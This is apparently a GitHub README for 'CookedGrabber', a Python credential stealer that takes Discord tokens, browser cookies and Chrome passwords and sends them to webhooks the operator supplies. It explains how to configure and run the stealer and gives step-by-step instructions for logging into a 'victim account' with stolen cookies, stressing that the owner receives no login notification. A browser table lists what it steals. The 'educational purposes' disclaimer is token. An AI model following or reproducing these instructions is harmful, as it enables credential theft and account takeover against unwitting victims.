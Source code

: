
<div align="center">
  <h4>⚠️ This repository has been archived and is no longer maintained. ⚠️</h4>
  <br></br>
  <img src="https://imgur.com/lCyX6TX.png">
  <br>
  <br>
  <p>
    <img src="https://forthebadge.com/images/badges/made-with-python.svg">
    <img src="http://forthebadge.com/images/badges/built-with-love.svg">
  </p>
  <h4> Discord, Twitter, Instagram, netflix cookies, token grabber and also password grabber. Grabbing from all web browsers ! </h4>
  <p>
    <img alt="GitHub contributors" src="https://img.shields.io/github/contributors/mouadessalim/CookedGrabber">
    <img alt="GitHub issues" src="https://img.shields.io/github/issues/mouadessalim/CookedGrabber">
    <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=shields">
    <img alt="GitHub pull requests" src="https://img.shields.io/github/issues-pr/mouadessalim/CookedGrabber">
    <img alt="GitHub commit activity" src="https://img.shields.io/github/commit-activity/m/mouadessalim/CookedGrabber">
    <img alt="Maintenance" src="https://img.shields.io/maintenance/no/2023">
  </p>
  <p align="center">
    <a href="#usage">Usage</a> •
    <a href="#cookies">Cookies</a> •
    <a href="#compatibility">Compatibility</a> •
    <a href="#disclaimer">Disclaimer</a> •
    <a href="#contributing">Contributing</a> •
    <a href="#license">License</a> •
    <a href="#other-projects">Other projects</a> 
  </p>
  <p align="center">
    <i>Loved the tool? Please consider <strong>donating</strong> 💸 to help it improve!</i>
  </p>

  <p align="center">
    <a href='https://ko-fi.com/mouadessalim' target='_blank'><img height='30' width="115" src='https://cdn.ko-fi.com/cdn/kofi3.png?v=2' alt='Buy Coffee for mouadessalim' />
    </a>
    <a href="https://www.buymeacoffee.com/mouadessalim" target="_blank"><img src="https://cdn.buymeacoffee.com/buttons/default-orange.png" alt="Buy Me A Coffee" height="30" width="115" style="border-radius:1px" />
    </a>
  </p>
</div>

# 📈Usage

## Requirements ⚡

- **Windows 10** OS only (*win32, for x86, x86_64, and arm64 architectures*)
- **Python 3.x** (*python 3.9 used for the project.*)
- **Modules:** `$ pip install -r requirements.txt`

## How to use ? ❄

There is 2 ways to run the script.

### 1. First way

You need to add your **webhook(s)** **link(s)** to the script from this line:
https://github.com/mouadessalim/CookedGrabber/blob/f753c4bea37241d94253a288dd223c5ae8f7f371/CookedGrabber.py#L290
*You can run the script normaly.*

### 2. Second way

You can also run the program by giving several arguments (the webhook(s) link(s)):
```console
py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
```

## Screenshots 📷

<p align="center">
  <img src="https://user-images.githubusercontent.com/38190847/188172516-da111666-ff8e-4cdb-86c4-1cbd82f87e91.png">
  <img src="https://user-images.githubusercontent.com/38190847/191291652-e617410c-62e8-489b-b8df-e738a9ed40c4.png">
</p>

# 🍪Cookies

## What are cookies ?

Cookies are text files with small pieces of data like a username and password that are used to identify your computer as you use a computer network. Specific cookies known as HTTP cookies are used to identify specific users and improve your web browsing experience.

Data stored in a cookie is created by the server upon your connection. This data is labeled with an ID unique to you and your computer.

When the cookie is exchanged between your computer and the network server, the server reads the ID and knows what information to specifically serve to you.

## What are cookies used for ?

Websites use HTTP cookies to streamline your web experiences. **Without cookies, you’d have to login again after you leave a site or rebuild your shopping cart if you accidentally close the page.** Making cookies an important a part of the internet experience. 

## Security breach with cookies

Since the data in cookies doesn't change, cookies themselves aren't harmful. They can't infect computers with viruses or other malware. However, some cyberattacks can hijack cookies and enable access to your browsing sessions.

The server only sends the cookie when it wants the web browser to save it. If you’re wondering “where are cookies stored,” it’s simple: your web browser will store it **locally** to remember the “name-value pair” that identifies you.

**⚠ When attempting to connect to an account using cookies, the system does not generate a new login request to the server. As a result, `the account owner does not receive an email notification` regarding a new login attempt. The server mistakenly assumes that the activity is coming from the legitimate account holder, leaving the owner unaware of any unauthorized access. !**

*****☢ This reveals major security breaches in general websites and social networks ! ☢*****

## How to bypass websites with cookies ?

So to use cookies to log into the victim account, you must have a cookies extension. I recommand [Cookie-Editor](https://chrome.google.com/webstore/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm). **To bypass website security you must be already connected to your personnal account to generate all cookies needed for the website.** After being sure that all default cookies have been generated use your cookies extension to replace your personnal id account cookies with the grabbed victim account cookies.

#### *****Example: Instagram*****

![image](https://user-images.githubusercontent.com/38190847/191361287-696f24ae-986e-40f2-9e6d-eb95dddfdbc8.png)

You need to put each value in it's place with the cookies extension:

![image](https://user-images.githubusercontent.com/38190847/191360860-dd5c75b3-5663-4449-ba72-f4492b88cef2.png)

> Once the cookies replaced and saved, refresh the page and you are logged in the victim account !

# 🌐Compatibility

| Browsers           | Cookies and token grabber 🔍 | Password stealer 💥 | 
| :-----------:      | :-----------: | :-----------: |
| Chrome             | ✅ | ✅ |
| Edge               | ✅ | ❌ |
| Brave              | ✅ | ❌ |
| Firefox            | ✅ | ❌ |
| Opera (GX)         | ✅ | ❌ |
| Vivaldi            | ✅ | ❌ |
| Chromium navigator | ✅ | ❌ |

# ❗Disclaimer

- **Only for educationnal puposes.**
- **We decline any responsability in case of misuse of this code.**

# ✨Contributing

Your contributions are always welcome! if you contribute we will show your account in the README file ! Please have a look at the [contribution guidelines](CONTRIBUTING.md) first. 🎉

## Authors ❤

<a href="https://github.com/mouadessalim/CookedGrabber/graphs/contributors">
  <img src="https://contrib.rocks/image?repo=mouadessalim/CookedGrabber" />
</a>
<br>
<br>

> **Working on your first Pull Request?** You can learn how from this *free* series [How to Contribute to an Open Source Project on GitHub](https://kcd.im/pull-request)

# 📝License

The actual repository is _unlicensed_, it mean **all rights are reserved**. You cannot modify or redistribute this code without **explicit** permission from the copyright [holders](https://github.com/mouadessalim/CookedGrabber/graphs/contributors). 

_Violating this rule may lead our intervention according to the [Github Terms of Service — User-Generated Content — Section D.3](https://docs.github.com/en/site-policy/github-terms/github-terms-of-service#3-ownership-of-content-right-to-post-and-license-grants) using the [Content Removal Policies — DMCA Takedown Policy](https://docs.github.com/en/site-policy/content-removal-policies/dmca-takedown-policy#what-is-the-dmca)_.

